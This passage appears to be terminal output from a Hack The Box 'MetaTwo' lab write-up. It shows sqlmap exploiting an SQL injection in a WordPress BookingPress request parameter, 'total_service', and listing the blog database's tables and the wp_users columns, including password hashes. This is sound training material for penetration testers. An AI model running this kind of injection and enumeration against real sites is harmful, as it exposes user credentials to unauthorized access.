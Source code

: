 ```bash
[*] blog
[*] information_schema

┌──(kali㉿Kali)──[22:56:53]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service --batch -D blog --tables

<...SNIP...>

Database: blog
[27 tables]
+--------------------------------------+
| wp_bookingpress_appointment_bookings |
| wp_bookingpress_categories           |
| wp_bookingpress_customers            |
| wp_bookingpress_customers_meta       |
| wp_bookingpress_customize_settings   |
| wp_bookingpress_debug_payment_log    |
| wp_bookingpress_default_daysoff      |
| wp_bookingpress_default_workhours    |
| wp_bookingpress_entries              |
| wp_bookingpress_form_fields          |
| wp_bookingpress_notifications        |
| wp_bookingpress_payment_logs         |
| wp_bookingpress_services             |
| wp_bookingpress_servicesmeta         |
| wp_bookingpress_settings             |
| wp_commentmeta                       |
| wp_comments                          |
| wp_links                             |
| wp_options                           |
| wp_postmeta                          |
| wp_posts                             |
| wp_term_relationships                |
| wp_term_taxonomy                     |
| wp_termmeta                          |
| wp_terms                             |
| wp_usermeta                          |
| wp_users                             |
+--------------------------------------+

┌──(kali㉿Kali)──[22:57:04]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service --batch -D blog -T wp_users --columns

<...SNIP...>

Database: blog
Table: wp_users
[10 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| display_name        | varchar(250)        |
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(255)        |
| user_email          | varchar(100)        |
| user_login          | varchar(60)         |
| user_nicename       | varchar(50)         |
| user_pass           | varchar(255)        |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
+---------------------+---------------------+

```